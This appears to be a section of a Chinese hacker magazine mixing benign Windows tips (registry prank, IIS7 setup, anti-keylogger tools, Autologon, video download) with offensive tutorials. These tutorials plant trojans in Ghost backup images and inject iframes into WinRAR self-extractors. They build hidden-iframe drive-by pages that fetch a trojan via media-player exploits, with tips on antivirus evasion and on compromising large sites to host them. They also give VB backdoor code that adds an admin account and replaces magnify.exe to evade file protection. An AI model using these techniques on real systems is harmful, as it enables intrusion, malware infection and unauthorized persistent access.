成功生成，文件名：rodog.exe。
确定
图 3
```


## GHOST 真的安全吗？

10℃ 誓言

最近电脑感染了机器狗病毒，很是郁闷呀，连影子系统也被它给整废了。由于系统没有备份只好重装，这次我吸取了教训，安装完毕后就进行了 GHOST 备份。看了看光盘里面还有一个 Ghost Explorer，想想这应该是 Ghost 浏览器吧。

使用 Ghost Explorer 打开备份的镜像文件，随便点了几下发现常用的编辑功能都还是有的（图 1），刚准备关闭的时候发现怎么还有一个添加的选项（图 2）？

```
Ghost Explorer
File Edit View Options Tools Help
Name Size Date Time
- WINDOWS
- AUTORUN.INF
- bootfont.bin
- INSTALL.LOG
- IO.SYS
- MSDOS.SYS
- NTDETECT.COM
图 1
```

```
Ghost Explorer
File Edit View Options Tools Help
Name Size Date Time
- WINDOWS
- AUTORUN.INF
- bootfont.bin
- Documents and Settings
- Documents and Settings
- All Users
- Administrator
- Default User
- LocalService
- NetworkService
- program files
- RECYCLER
- System Volume Information
图 2
```

那么，能否把木马也弄进去呢，我随便添加了一个东西发现真的可以哟。开始还以为它和 UltraISO 一样编辑文件后保存操作等要很长时间，没想到在几 G 的文件内添加一个东西居然不费吹灰之力。想想就害怕，把一个木马存放到镜像的时间可以忽略，用户肯定是不会察觉的。在里面编辑注册表添加启动项似乎不大可能，不过 Windows 自带的不是有个启动文件夹吗，把木马放里面就可以了。

（路径是 X：\Documents and Settings\All Users\ [开始] 菜单 \ 程序 \ 启动），All Users 会比较好些，因为不管用户名是哪个它都会启动的。最好是能够自删除的，不然恢复完系统后细心的用户还是会发现问题的（图 3）。

既然这么可怕那有什么办法预防吗？如果我是搞破坏的话，肯定会从 .GHO 之类的镜像文件下手，我们可以尝试着把后缀名改下，比如我改成 XP.txt。

```
Ghost Explorer
File Edit View Options Tools Help
Name Size Date Time
- ACER
- AUTORUN.INF
- bootfont.bin
- Documents and Settings
- All Users
- Administrator
- Default User
- LocalService
- NetworkService
- Program Files
- WINDOWS
- RECYCLER
- System Volume Information
图 3
```

```
桌面
新建(W)
打开(O)
提取(E)
打开目录(O)
剪切(T)
复制(C)
粘贴(P)
删除(D)
图 4
```

# 傻瓜黑客


图4


图5

改了后缀名在 GHOST 恢复系统时仍然能正常使用，恢复的步骤一样，不过选择镜像文件时类型要选择“Scan for images”，也就是搜索支持类型，马上显示了 XP.txt（图4，图5）。

需要说明的是，镜像文件与后缀名无关，GhostExplorer11 可向下兼容所有的 GHO 镜像文件，其中的任何修改无需保存即可生效，大家一定要谨慎使用呀。

（本文所涉及到的 Ghost Explorer 已收录到光盘中）5


## 触发Windows的愚人机关

牟晓东

4月1日，伟大的愚人节又要来到了，各位小菜在繁忙的研究之余是不是想在好友的电脑上愚人一把呢？虽然如今网上的愚人工具有很多，但都不符合 DIY 精神，其实我们可以在Windows 中的注册表中稍微动下手脚就可以触发盖茨早已为我们设置好的愚人机关了。

在电脑中单击“开始” - “运行”，输入“regedit”打开注册表编辑器，依次找到 HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Nls\Language 项，分别双击其右侧窗格中的最后两个项“Default”和“InstallLanguage”，进行值的修改，将其原来默认的“0804”修改为愚人节的日期“0401”（图1），两项都要改，然后单击“确定”按钮。

修改完毕后必须重启一下电脑，试一下打开“我的电脑”，再试一下“开始”菜单（图2），当然也包括底部的状态栏，是不是都左右翻转了过来呢？

以上是笔者在自己的 XP 上做的实验，接着又在虚拟机的 Server 2003 上如法炮制修改了注册表相同的两项，重启后效果也都是一样的（图3）。看来这种“0401”愚人机关在 Windows的大部分版本上都是适用的，大家可以在4月1日恶搞一下了。相信中招的朋友在启动电脑后会面对如此左右颠倒界面肯定会抓狂的，不过如果他正好是正宗的“左撇子”的话，这反倒正好对了他的胃口 ^_^。至于破解方法嘛，当然是原样改回去了，记住 Windows 默认的原值都是“0804”5


图1


图3


图2

16


## WinRAR挂马新体验

清源长风

最近听说WinRAR也可以挂马，兴奋不已，研究了一下，下面和大家分享一下这个简单的过程。问题就出在WinRAR自解压文件中提示文本增加了对脚本的支持，而又不加已严格的过滤，这就给挂马有了可乘之机。

随便找一个文件，在右键菜单中选择“添加到压缩文件”，如图1，再选择“创建自解压格式压缩文件”，切换到“高级”选项，选择“自解压选项”，在弹出的选择界面中切换到“文本和图标”，在“自解压文件窗口中显示的文本”中输入测试代码`<script>alert("clzzy!")</script>`，如图2，确定之后，就会生成一个自解压文件，运行之后准确无误的执行了我们的代码，如图3。

我们再试一个经典的挂马代码`<iframe name = "clzzy" src="http://www.baidu.com/" width = "200" height="200"> </iframe>`，运行之后WinRAR就会访问网络，这个连出动作被我的zonealarm十分精确的拦截了，如图4，允许其访问后，baidu.com被成功打开了，如图5。好了，这个简单的挂马我就介绍到这儿，要怎么利用大家就自由发挥吧！


## Vista下的IIS7的安装与调试

前几天我买了一台联想笔记本电脑，安装了vista操作系统，为了以后查看网站源码的方便我就安装了IIS，但是在安装过程中却遇到了许多麻烦，因为再也没有原来XP中熟悉的属性窗体，取而代之的是一些很陌生的名词和操作方式，经过各方面的研究和查找资料终于将问题解决了。

想到大家可能也会遇到这类问题甚至还末解决，为了让大家在以后的安装过程中少走弯路，下面我就为大家详细介绍一个vista系统中IIS的安装以及调试。

### 一、安装

首先选择开始菜单中的“计算机”（图1），然后选择“安装或更改程序”（图2）。

在“安装或更改程序”中选择“打开或关闭windows功能”，这一系列操作都是与WindowsXP中不太一样的。


接着打开“Internet 信息服务”选项，把你想要安装的服务都选上，我全部都选择上了（图3）。特别要注意的是选中“万维网服务”中“应用程序开发”选项里的ASP和ASP.NET（图4），不然的话ASP和ASP.NET在默认情况下是不支持的。进行完这一系列操作后要做的就是点击“确定”了，这时Vista就会为你安装IIS 7。

### 二、设置

安装完成后，再次进入“控制面板”，选择“管理工具”，选择“Internet信息服务（IIS）管理器”（图5），开始对IIS7进行相关的设置。

1. 首先选择“Default Web Site”并双击“ASP”选项（图6），进行开启父目录操作。在IIS 7中ASP父路径是没有启用的，要想方便的使用ASP，首先就要开启父路径，选择“True”，这一步可以搞定父路径选项（图7）。

2. 接下来右键单击“Default Web Site”选项，选择“高级设置”。在这里可以对网站的“主目录”、“访问的端口”等进行相应的设置（图8）。

至此，IIS7的设置就基本完成了，但是这时，在Windows vista中只能调试ASP的程序，还是无法调试ASP+Access程序，这是因为Windows vista的目录权限问题。

3. 如何对目录权限进行正确的设置呢？首先打开（系统安装盘）C:\windows\serviceprofiles\networkservice\appdata\local\目录，最好是手动输入路径，因为Appdata的文件夹是隐藏的。右键单击Temp文件夹，选择“属性”（图9）。选择“安全”选项，单击“编辑”按钮，进入“编辑权限”对话框，点击“添加”（图10）。在“选择用户或组”的对话框中，在“输入对象名称来选择”的表单中输入大写字母A后，单击“确定”，系统会自动显示所有带有字母A的系统用户（图11）。添加完这个用户后，选择添加的用户，单击“完全控制”，然后确定，这样，Temp的访问权限就设置好了。系统会有安全提示，选择确定就可以了，ASP+Access可以运行了。


40


至此，Vista 中 IIS 的安装与调试就结束了，我们已经可以在 Vista 中调试 Asp 代码了，其它的设置大家可以根据具体需要进行调整，在此就不再过多介绍。希望大家看了此文之后能够对大家设置 IIS 7 起到帮助作用。

## 播放器挂马的艺术

SuperSheep

好多网友都有在线观看电影或听音乐的习惯吧，同时目前的视频分享技术，比如酷 6 网、六间房、YouTube 等，也把这个习惯带给了更多的人。其实利用播放器漏洞我们也可以获得大量的肉鸡的，而且这种利用视频文件的挂马方式更难以被发现。

首先介绍一下这种木马的工作原理：黑客利用很小的音频或视频文件制作成在线播放页面，然后利用工具改掉里面的参数，这样能够达到什么样的效果呢？比如我们进入一个有 “real 播放器” 的网页，当一个音频文件正在播放时，在你不知不觉中播放器就开始下载黑客指定的木马并且运行，从而自己的电脑成了别人的肉鸡，防不胜防。这种方法成功的条件是对方打开了你的页面，并且安装了有漏洞的播放器。打开挂马页面这是任何一种方式都需要的，至于有漏洞的播放器，大部分厂商在发现漏洞后都尽快修补了。可惜仍然有许多用户没有更新，大家的安全意识仍然停留在修补 Windows 漏洞的层面上，可事实上有很多问题都是出在第三方软件上的，比如 office 等，这次的播放器网马也正是如此。

目前大多数播放器均含有漏洞，包括暴风影音、千千静听、realplay、Q 播、JetAudio 等等。这些漏洞利用器的释放方法其实差不多，主要分为以下两类。

### 一、直接生成 htm 文件

我们以千千静听为例来介绍一下，这也是大家都经常使用的音乐播放器吧，确实好用。利用工具是 ert 专用于千千静听 Exp，漏洞是在 08 年 3 月 9 日发布的，可以说是很新的漏洞哟。软件的界面很简单，只有一个“木马地址”需要我们填写（图 1）。


顾名思义我们需要先把木马上传到空间并找到它的下载地址，比如 http://www.test.com/mm.exe，填好后点击生成网马，在程序目录下就会生成网页文件 qianqian.htm，这就是我们需要的网马了。使用记事本打开后发现只有短短几行代码，我们可以使用网页文件加密器对其加密，使其能够更长久地免杀。把这个页面挂到一个正常的空间上即可，最好是入侵一个大网站，比如前些天千千静听官方网站就被挂马了。如果自己能力有限的话，也可以自己架设一个网站。


这里只提供一个最常用的挂马方法，其余的可以参考本文相关资料或通过 Google 查找。框架挂马的代码如下：`<iframe src=地址 width=0 height=0></iframe>`。图片伪装挂马的代码如下：

```
<html>
<iframe src="网马地址" height=0 width=0></iframe>
</center>
</html>
```

制作好后我们只需要发布这个页面，当有人访问，并且对方安装了千千静听播放器的话就会自动安装我们的 http://www.test.com/mm.exe，威力不可小视哟，其效果如图 2 所示。
这种类型的播放器网马占有很大一部分，常用的还有：暴风影音，这个播放器不用多评论，用户实在是太多了（图 3，图 4）；Windows Media Player，微软自带的播放器，功能也很强大（图 5）；Qvod，我在写本文时其下载量已经达到了 6 亿多次的播放器，可以直接截获门丫地址，对于视频分享网站十分方便（图 6）；JetAudio，一款功能极强的多媒体播放器，外观设计尤为突出（图 7）。


music.htm 木马的网页核心部分是<embed type="audio/x-pn-realaudio-plugin" src="music.smi" height=0 width=0 autostart=true>，意思就是在 IE 中嵌入 music.smi 媒体，并自动播放，高度 height 和宽度 width 都为 0（隐藏起来）。music.smi 是木马核心文件，smi 类型可保证默认是使用 realplay 打开，从而提高命中率。你也可以把文件改名，例如改写“好看电影.smi”、“好听音乐.smi”、“搞笑片段.smi”等等，直接让别人打开，一样会中马。另外我再提供一个综合型的工具，这是内部群无限制版，打开时不要输入内部密码 www.bycnboy.com，绝对是菜鸟挂马的一个好帮手（图 10）。


### 二、生成音频或视频文件

这类播放器木马不是生成网页文件而是生成音频或视频文件，比如 realplay 网马（图 8）。木马下载地址我们依然填入 http://www.test.com/mm.exe，页面显示内容部分是网页内欺内容，可随意编写。生成的文件包括一个 htm 和 smi 文件，其中起作用的是 smi 漏洞文件，我们可以两个文件一起当作挂马使用，也可以单独把 smi 当作木马下载器使用（图 9）。

> 什么是 Cookies?
Cookies 是一种能够让网站服务器把少量数据储存到客户端的硬盘或内存，或是从客户端的硬盘读取数据的一种技术。当你浏览某网站时，由 Web 服务器置于你硬盘上的一个非常小的文本文件，它可以记录你的用户 ID、密码、浏览过的网页、停留的时间等信息。当你再次来到该网站时，网站通过读取 Cookies，得知你的相关信息，就可以做出相应的动作，如在页面显示欢迎你的标语，或者让你不用输入 ID、密码就直接登录等等。

## 让你的键盘不再成为“泄密之源”

花的神明

现在的网络安全形势不容乐观，各种病毒、木马、间谍软件等恶意程序活动很频繁，入侵的手段也日益复杂，往往在你不在意间，你的QQ密码，网游密码，甚至你的银行帐号和密码等机密信息就可能会落入窃密者之手。网络窃密者使用你的相关密码信息，可以轻松获得非法利益，同时也会给你带来了不应有的损失。恶意程序之所以能轻易盗窃你的机密数据，关键是其使用了键盘记录技术，当你在使用键盘输入重要数据时，这些恶意程序在后台悄悄记录下你的键盘动作，然后发送给窃密者。因此，及时发现并清除潜伏在系统中的键盘窃密程序，可以有效保护你的数据安全。实际上，几乎所有的木马程序都提供了键盘记录功能，只要检测到键盘窃密程序的行踪，就可以顺藤摸瓜将木马程序彻底清除。

### 一、使用 ID AntiKeylogger 保护键盘操作

ID AntiKeylogger 安装后，将自身注册成名为“Anti Keylogger”的系统服务，可以跟随系统自动运行。通过对内存进行扫描，可以发现隐藏很深的键盘记录程序，它可以阻止可疑程序捕获键盘输入、记录剪切板数据、探测窗口文本内容等操作。ID AntiKeylogger 的使用方法简单，在系统托盘中的 ID AntiKeylogger 图标的右键菜单中点击“Check Memory”项，ID AntiKeylogger 即可对内存中所有的进程进行检测。然后点击 ID AntiKeylogger 右键菜单的“KeyLogger List”项，在打开的窗口中显示所有和键盘记录相关的程序（图 1）。


其中有些程序是正常的，通过仔细检测可以很容易发现来历不明的程序。以 PC Spy Keylogger 为例进行说明，这是一款功能强大的键盘记录程序。ID AntiKeylogger 可以很容易的将其检测出来，在上述列表中很容易发现其行踪，其对应的程序路径是“c:\program files\psk\toolkeyloggerdll.dll”。选中可疑程序项，在窗口底部显示其调用的钩子函数、检测的时间、活动状态等数据。如何禁止可疑程序的活动呢？在其右键菜单中点击“Disable”项，ID AntiKeylogger 即可将其设置为禁用状态，该程序就无法继续拦截键盘操作了。之后最好重新启动系统，让可疑程序彻底失去活力。对于正常的程序，可以在其右键菜单中点击“Forget”项，使其从列表中消失，这样可以避免过多的程序干扰分析工作。

*“Forget”项，使其从列表中消失，这样可以避免过多的程序干扰分析工作。*

### 二、使用 Anti-keylogger 保护键盘操作

Anti-keylogger 运行后将自身隐藏在系统托盘中，之后即可对系统进行全面监控，来探测可疑的键盘记录程序。Anti-keylogger 采用双进程保护模式，可以有效抗击可疑程序对其的非法关闭操作。当 Anti-keylogger 发现可疑程序试图拦截键盘输入时，即可自动对其进行拦截，同时在屏幕右下角弹出提示面板。双击 Anti-keylogger 图标打开其管理窗口（图 2），在窗口左上角显示一个不断转动的雷达图标，表示其处于监控之中，如果点击“Stop”按钮，表示停止其监控操作。在窗口左侧点击“Protection policy”按钮，在右侧窗口的“Auto detected modules”面板中显示所有检测到的键盘记录程序，直接点击对应的程序项目，可以使其在激活和禁止之间切换，当其显示图标为红色的叉号时，表示其处于禁用状态，这样该程序就无法执行键盘拦截操作了。


# 傻瓜黑客

截操作了。为了防止Anti-keylogger检测正常程序，可以在“White list”面板中点击“Add”按钮，添加对应的程序，这样在白名单中的程序可以排除在Anti-keylogger监控之外。在窗口左侧点击“Options”项在右侧窗口的“Advanced”面板中勾选“Switch the Clipboard protection on”项，表示启用剪切板保护功能。勾选“Use password protection”项，可以输入管理密码，这样可以避免其他人随意更改Anti-keylogger配置。

### 三、使用Keylogger Detector保护键盘操作

Keylogger Detector是一款体积小巧的安全软件，在其运行后，可以对所有的进程进行扫描，检测所有设置键盘钩子的进程。在其主窗口的“Process List”列表中列出所有相关进程信息，包括安全标志、PID、键盘钩子、程序路径，进程描述等内容（图3）。在工具栏上点击“Refresh”按钮，可以刷新该列表。Keylogger Detector可以判断进程的安全级别，在对应进程的“Flag”列中显示为绿色图标，表示该进程是安全进程，对于可疑进程，会在其“Flag”列中显示灰色图标。选中对应的进程，在“Process Information”面板中显示其详细信息，在“Module List”面板中显示其中包含的所有模块。根据以上信息，可以很容易的发现潜伏在内存中的可疑程序，在“Process List”列表中选中可疑进程，在其右键菜单中点击“Stop Process”项，可以中止该进程。

### 四、使用Anti-Keylogger Elite保护键盘操作

Anti-Keylogger Elite使用的是基于规则的保护模式，在其主窗口中点击菜单“Window”→“Options”项，在设置面板中勾选“Load Anti-Keylogger Elite at windows Startup”项，可以让其跟随系统启动（图4）。勾选“Show balloon tip notification”项，表示当Anti-Keylogger Elite检测到可疑程序活动时，会在屏幕右下角弹出提示框，提醒用户该可疑程序的试图安装键盘钩子。在“Block”栏中选择“Ask User”项，表示当前检测到相关程序试图设置键盘钩子时，就会弹出询问窗口，让用户决定是否对其放行。选择“BLOCK ALL - except Microsoft certificate OS files”项，表示除了系统核心进程外，Anti Keylogger Elite将自动拦截所有和键盘记录相关的程序，选择“BLOCK ALL - for high security environments”项，表示采用安全界别较高的拦截方法。这里以选择“Ask User”项为例进行说明。为了防止别人随意更改Anti-Keylogger Elite配置，可以勾选“Load Password Protection”项，点击“Change user name and password”按钮，为其设置管理密码。Anti-Keylogger Elite还提供了软键盘功能，按下“Ctrl + Alt + K”组合键可以调出软键盘。当使用软键盘输入数据时，可疑程序就无法记录键盘动作了，在“Secure Keyboard Hot Key”中可以更改软键盘激活热键。


当Anti-Keylogger Elite检测到可疑程序活动时，即可弹出询问窗口（图5），在“Program”栏中显示程序路径，在“Description”栏中显示该程序的描述信息，对于正常的程序，点击“Allow”放行，对于非法程序，最好点击“Deny”按钮进行拦截。如果勾选“Don't ask again”项，表示以后对该程序执行同样的操作。当操作完成后，Anti-Keylogger Elite随机对该程序创建规则，这样你可以针对不同的程序，分别创建检测规则。点击菜单“Window”→“Modules”项，在弹出窗口中显示所有的规则项目（图6）。对于Windows的核心进程，可以在其左侧显示特殊标记。在规则表由的右键菜单中选择“View”→“Style”→“Style I”，可疑打开列表的全部显示列，包括Keylogger、Password Thief、Screen shooter、Clipboard logger等。Anti Keylogger Elite不仅可以检测对应程的键盘记录动作，还可以判断和拦截其破解带星号的密码、屏幕抓屏、窃取剪切板中的数据等的操


作。在程序列表中双击某个程序，打开规则修改窗口，在“Threat”面板能够设定该程序所属的规则（图7），你可以对该程序的“Keylogger”（键盘记录）、“Password Thief”（破解带星号的密码规则）、“Screen shooter”（抓屏操作）、“Clipboard logger”（记录剪切板）等规则进行配置，在对应规则右侧的“Action”列表中可以为选定的规则指定监控动作，包括“Allow Always”（总是允许）、“Block Always”（总是阻止）、“Ask User Always”（弹出询问窗口）等权限。

### 五、用KeyScrambler为浏览器设置键盘保护功能

当你在浏览器中打开邮箱、论坛、在线银行等登录网页时，最担心的事情就是潜伏在系统中的可疑程序拦截你在IE窗口中输入信息，使用KeyScrambler这款独特的浏览器插件，就可以为浏览器装上键盘输入保护器，让可疑软件无法探测你在IE中的输入内容。KeyScrambler同时支持IE和FireFox浏览器。它运行在键盘驱动层面上，可以在系统底层加密你的键盘输入信息，使可疑软件使用的键盘钩子彻底失效。当你在IE中输入数据时，IEKeyScrambler立即对其进行加密处理，随后将加密后的信息传送到IE中，因此可疑程序只能记录一堆无法识别的字符。当加密后的数据在IE中执行提交操作时，KeyScrambler即可对加密信息进行解密处理，这样点击提交按钮后，IE即可将正常的登录信息发送给远程服务器了。KeyScrambler安装需要重新启动系统，之后当启动浏览器后，即可自动激活KeyScrambler。在系统托盘的KeyScrambler图标的右键菜单上点击“KeyScrambler On”项，表示激活其键盘保护，点击“KeyScrambler Off”项，表示取消其保护功能。点击“Options”菜单项，在设置窗口中的“Settings”面板中勾选“Protect Login Data”项（图8），表示可以保护在网页中输入的登录信息，如果使用的是专业版的话，勾选“Protect All Data”项，表示保护在网页中输入的任何信息。在“On/Off Hot Key”栏中可以设置激活/关闭热键（默认为“Ctrl + Shift + K”）。在“Status Display Options”面板中设置KeyScrambler的状态显示功能，在默认情况下，当打开登录网页时，会在网页左上角显示KeyScrambler的保护信息。


（本文所涉及到的ID AntiKeylogger、Anti-keylogger、Keylogger Detector、Anti-Keylogger Elite和KeyScrambler已收录到光盘中）

## 在局域网中轻松共享鼠标键盘


现在很多单位和家庭都组建了局域网，我们可以充分的利用资源共享带来的种种便利。按照一般的共享观点，硬盘可以共享、打印机可以共享、甚至电视卡也可以共享。但是对于键盘和鼠标也能共享，知道和使用的人就不多了。Input Director就是一款能够让使用者仅用一套键盘鼠标，就同时操控多部计算机的免费工具软件，在设定好从属关系后，就能够通过一套键盘鼠标来操控多台电脑的屏幕，这样特殊的操控方式，对于拥有笔记本电脑用户来说尤其方便，我们可以在笔记本电脑和台式电脑上同时安装，并设置好两者的从属关系，这样就能够利用笔记本电脑来同时操控所有的电脑了。


### 一、配置客户端Input Director

首先在客户机上安装和运行Input Director，在系统托盘中双击“Input Director”图标，切换到设置窗口中的“Slave Configuration”面板（图1）。“Allow any computer to take control”项，表示允许局域网中任何一台电脑控制本机，建议选择“Allow only the computer listed below to take control”项，表示只允许指定的主机控制本机，点击“Add”按钮，在弹出窗口中输入主控机的名称或者IP即可。当然，可以同时添加多台主机，让多台主机都可以遥控本机。之后在“Main”面板中点击“Enable as Slave”按钮（图2），将本机设置为被控端。此外，可以点击“Set Hotkey”按钮，为本机设置返回激活热键，这样当在其他主机上通过键盘鼠标操作本机屏幕时，可以直接点击该热键，快速切换到主控制原始屏幕上。在“Preferences”面板中勾选“Run Input Director on Startup”项，表示让Input Director跟随系统启动，在“On Start”栏中选择“Input Director is enabled as a Slave”项，表示自动设置本机为客户机。这样就避免了繁琐的手工设置。

### 二、配置主控端Input Director

在主控端安装和运行Input Director，在其配置窗口的“Main”面板中点击“Enable as Master”按钮，将本机设置为主控机。在“Master Configuration”面板中的“Slave”列表中显示所有的客户机信息（图3）。点击“Add”按钮，在被控端设置窗口中的“Hostname”栏中输入客户机的名称或者IP（图4），在“Port”栏中设置连接端口（默认为31234）。点击“Set Hotkey”按钮，可以设置快速切换键，这样在主控机上直接点击该热键，即可将该客户机的屏幕内容“映射”到主控机屏幕上了。

当添加了客户机后，主控机即可与之进行联系，如果连接正常的话，在“Slave Systems”列表的对应客户机的“Status/Name”列中可以显示绿色标记（图5），说明两者之间已经建立了可靠连接。如果在“Skip”列中设置选择标记，表示主控机无法通过将鼠标移动到屏幕边缘的方式，来实现客户机屏幕的切换操作。当添加了多台客户机后，如何确定其与主控机之间的位置呢？在“Master Configuration”面板的上部显示所有的相关的电脑名称，通过拖动操作可以改变彼此的位置。其中的“Master System”表示主控机，其余的表示客户机，例如可以将其中名称为“bob”的客户机拖动到“Master System”的左侧，这样当在主控机上将鼠标指针移出屏幕左侧边缘时，即可将“bob”的客户机的屏幕内容显示在主控机上，这样在主控机上就可以操作“bob”客户机了。当然，如果将其设置在主机机的右侧（图6），则在主控机上将鼠标指针移出屏幕右侧边缘时，即可完成屏幕焦点的转移操作。按照上述方法，你可以灵活的设定客户机的位置。如果客户机比较多的话，为了便于操作，可以逐个进行添加，例如每次添加两台客户机，使用完毕后将其删除，之后再添加其他的客户机。也可以直接使用切换热键，在主控机上直接切换客户机屏幕内容。不管是主控机还是客户机，在Input Director设置窗口的“Preferences”面板中的“TCP/IP”Listen Port栏中可以更改端口号，当然，两者的通讯端口必须一致。勾选“Shared Clipboard”项，表示激活剪切板共享功能，这样在任何一台电脑上都可以共用剪切板的内容了。

（本文所涉及到的Input Director已收录到光盘中）


## Autologon让你自动登录Vista

李红


Vista系统为了安全起见，默认情况下每次登录时都要输入用户名和密码，如果你希望每次开机便能自动登入系统，不再出现要求登录的对话框，可以使用Autologon这个小工具，它能让电脑启动后自动以默认用户身份登录Vista，而且随时都可以开启/取消自动登录功能。

### 一、Autologon简介

Autologon可以让你无需手动输入用户名、密码和域名自动登录Vista系统，它只有39KB，不需要安装即可使用，你可以用它设定以某个用户名和密码登录Vista，而且随时都能“开启/取消”自动登录功能。该软件原理就是在系统注册表中添加了帐户信息和登录信息的键值，修改了以下注册表位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon`下，AutoAdminLogon决定是否显示登录画面，default DomainName、default UserName、defaultpassword决定帐户信息。

### 二、操作方法


双击运行Autologon.exe，在“Username:”栏输入要自动登录的用户名（例如lacl），在“Password:”栏输入登录密码（图1），“Domain:”栏将显示电脑当前所在网络域名，建议不要更改该数值。最后按右侧的“Enable”按钮，下次开机后，就能以lacl帐户自动登录Vista系统了。如果要取消自动登录功能，按右侧的“Disable”按钮即可。“Domain:”栏要求你输入电脑当前所在网络的域名，如果你的电脑是单机使用，没有联入任何局域网，那么此处应输入“完整的计算机名称”或空白，建议此处不用输入任何数值，使用软件自动显示的数值即可。在桌面上右击“我的电脑”，选择“属性”菜单，点“计算机名”能看到当前电脑的“完整的计算机名称”（图2）。Autologon还可以在CMD命令提示符下使用，在Vista中进入CMD命令提示符，使用CD命令进入Autologon安装目录，然后输入autologon /?命令显示其用法，会弹出一个对话框，显示Autologon的语法格式Autologon <username> <domain> <password>（图3）。例如我们要让电脑启动后以lacl帐户、密码2007、局域网域名ZLSGS自动登录Vista系统，就输入以下命令autologon lacl ZLSGS 2007。（本文所涉及到的Autologon已收录到光盘中）15


## 替换放大镜，添加无敌3389帐户

小菜们在入侵提权成功后，通常都会选择留下一个3389后门，但是伴随着网络管理员安全意识的提高，这些3389帐户通常都会被他们删除，那么下次我们就无法再次登录了。现在，我就介绍一个方法，让广大叉子在每次远程登录时，都能重新添加一个帐户。这样，就算管理员把我们留在系统中的帐号删除掉，下次也可以进入系统！下面就分三个步骤实现这个功能。

### 一、编写后门

首先，我们需要编写一个后门，作用就是添加一个用户并且把他设置成管理员。这里使用VB6来编写一个这样的小程序，程序界面很简单，如图1。

双击窗体，来到代码编辑窗口，输入如下代码：


```vb
Private Sub Form_Load()
Open "c:\adducer.bat" For Output As #1
Print #1, "net user xiaolong 123456 /add"
Print #1, "net localgroup administrators xiaolong /add"
Close
Shell "c:\adducer.bat", vbHide
End Sub

Private Sub Form_Unload(Cancel As Integer)
```


```vb
Kill "c:\adducer.bat"
End Sub
```

这段代码的作用就是程序载入时，把添加用户的批处理命令写入“c:\adducer.bat”文件，然后运行这个批处理文件。同时，在程序关闭时就删除“c:\adducer.bat”文件。在编写完代码后，选择“文件”菜单中的“生成EXE”命令，然后把生成的VB可执行文件的文件名修改为magnify.exe（系统放大镜的文件名）。


### 二、替换系统文件

在上面已经编写好了后门文件，现在登录3389，来到远程服务器的“C:\WINDOWS\system32”目录下，复制VB生成的EXE文件（已经修改文件名为magnify.exe）到这里，如图2。

在资源管理器中，选择工具菜单中的文件夹选项，修改文件夹属性如图3所示，也就显示所有的文件和文件夹（Windows默认不显示dllcache目录）。

现在，来到“C:\WINDOWS\system32\dllcache”目录，同时把VB生成的EXE文件复制到这里，如图4。

注意，首先覆盖dllcache下的magnify.exe文件，然后覆盖system32目录下的magnify.exe，这样替换的成功率比较高，可以有效避免Windows的系统文件恢复功能。

#### 小知识：Dllcache目录

Windows下有个“系统文件检测”程序，这个程序的作用就是检测系统文件，如果检测到受保护的文件已经被不正确的文件覆盖，它就从系统文件备份（就是dllcache）中提取正确的系统文件，替换不正确的文件。dllcache目录中就保存了这些系统文件。

### 三、登录3389后门

经过前后面的编写和替换后，现在我们已经打造好了这个无敌后门了。下次在登录时就可以同时按下win+U组合键（这个组合键默认是调出放大镜程序的），调出自己的添加用户后门。具体的用法为：首先登录3389，如图5。同时按下win+U后，就会出现“辅助工具管理器”，如图6。


选择其中的“启动”按钮，可以看到我们的后门已经运行了。默认是调用放大镜程序的，因为前面放大镜程序已经被我们成功替换成这个后门文件，所以这里会调出后门，如图7。登录3389肉鸡后，在CMD下输入net user命令，会看到了一个名为“xiaolong”的用户，因为我们的后门文件已经执行了。


现在，就可以使用这个帐户登录3389肉鸡了。就算这个帐户被管理员删除了也无所谓！因为，下次当我们登录3389时，可以再次使用“win+U”组合键生成一个名为“xiaolong”的管理员用户，如图8。还等什么，黑友们赶快“升级”自己的无敌后门吧！


注意，一般第一次同时按下“win+U”后，会出现“windows文件保护”对话框，不用管它，直接选择取消就可以，如图9。


（本文所涉及到的VB程序已收录到杂志论坛中）

## 优酷、56、土豆等在线视频随意down

目前的在线视频越来越多，想下载怎么办呢？我总结了三个方法，小菜们要好好学习哦。主要是针对FLV视频的，什么是FLV视频呢？就是土豆网、六间房、56、mofile、youtube等视频网站播放的流媒体。其它诸如WMV、MPG等格式，我就稍微讲一下。如果是WMP视频，右击视频-->属性，就可以查看到真实视频地址。如果是Real视频，右击视频-->使用Real Player播放，然后在本地打开那个realplayer，依次选择文件→剪辑信息→编辑剪辑属性，就可以看到真实地址了。

### 第一种：利用临时文件夹

这种方法对于大部分网站都非常有用，相信有很多人都知道吧。不过我还是整理了一下。首先你得耐着性子把整个片子在线看一遍，一定要看完哦。也可以打开多个窗口，就当是下载吧。在观看的时候这个视频文件已经下载到你的临时文件夹（IE-->工具-->INTERNET选项-->设置-->查看文件）里了。

点击查看文件后会出来一堆乱七八糟的文件列表，通过调整文件大小/时间/文件类型，后缀为FLV的就是视频文件了，把这些FLV文件随便复制出来就行了。要注意，有时候下载下来的是一个叫get_video的无后缀文件，我们要自己手动把它改名为xxx.flv（记者不要隐藏已知扩展名哦），如图1。FLV可以使用暴风影音或者kmplayer播放，FLV转换成其它常见视频格式的软件待会我告诉大家。

### 第二种：利用软件，我给大家推荐三款软件。

- 1、维棠FLV视频下载软件，其下载地址为http://www.vidown.cn/。
维棠FLV视频下载软件主要针对播客网的FLV视频文件而开发，对于其它格式的视频文件的探测力度显得不够。采用了地址复制方式，并不支持在浏览过程中的实时监控探测；将待探测的播客地址复制到“视频地址”框，然后定义好下载路径，就可以开始分析下载了，如图2。
- 2、Project URL Snooper，其下载地址为http://www.skycn.com/soft/8770.html。
Project URL Snooper实施流媒体抓取的先后步骤比较重要，先打开此软件并启动探测，然后打开需要抓取流媒体的页面，再复制网址实施下载。在“常规选项”下，从“网络侦测选项”下拉菜单中选择其唯一的选项即可完成配置，因为实施的是网络搜索，所以还得将“搜索的目录”下的勾选取消。然后返回“搜索”选项，单击“侦测网络”按钮，接着打开待抓取流媒体页面，即可开始实时探测，稍等之后即可从下方的预览框中看到搜索结果。
- 3、网络嗅探器（影音神探），其下载地址为http://www.greenrdown.cn/soft/1787.html。
